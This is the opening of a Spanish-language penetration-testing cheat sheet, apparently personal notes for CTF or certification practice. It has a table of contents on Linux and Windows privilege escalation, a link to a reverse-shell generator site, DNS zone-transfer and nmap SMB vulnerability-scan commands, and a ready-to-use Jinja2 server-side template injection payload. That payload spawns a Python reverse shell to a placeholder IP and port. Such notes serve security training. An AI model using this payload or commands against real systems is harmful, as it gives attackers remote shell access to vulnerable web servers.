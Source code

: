 <img src="/assets/cert/digital.png"> 



## Apuntes relevantes 
Mejor web de reverse codes: [Revshells](https://www.revshells.com/)
- [Enum](#enum)
- [Linux Priv esc](#linux-priv-esc)
    * [Check List](#check-list)
    * [Script cron check](#script-cron-check)
    * [Grupos](#ver-a-que-grupo-pertenecemos)
    * [mysql](#si-mysql-se-esta-ejecutando-como-root)
    * [Docker](#docker-escape)
- [Windows Priv esc](#windows-priv-esc)
    * [Checkm list](#win-check-list)
    * [Impresonate Privilege](#seimpersonateprivilege--seassignprimarytoken-enabled)
    * [Backup Privilege](#SeBackupPrivilege)
    * [LoadDriver Privilege](#SeLoadDriverPrivilege)
    * [DNS admins](#dnsadmins)
    * [Server Operatos](#server-operators)
    * [Post Explotation](##windows-post-explotaton)

###  Enum

dns
```
host -t axfr <DOMAIN> <IP>
dnsrecon -d <domain> -t axfr
```
smb vuln check
```
nmap -Pn --script=smb-vuln\* -p 445
```
SSTI python reverse shell one liner


{% highlight python %}
{% raw %}
    for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<IP>\",<PUERTO>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'").read().zfill(417)}}{% endif %}{% endfor %}

{% endraw %}
{% endhighlight %}
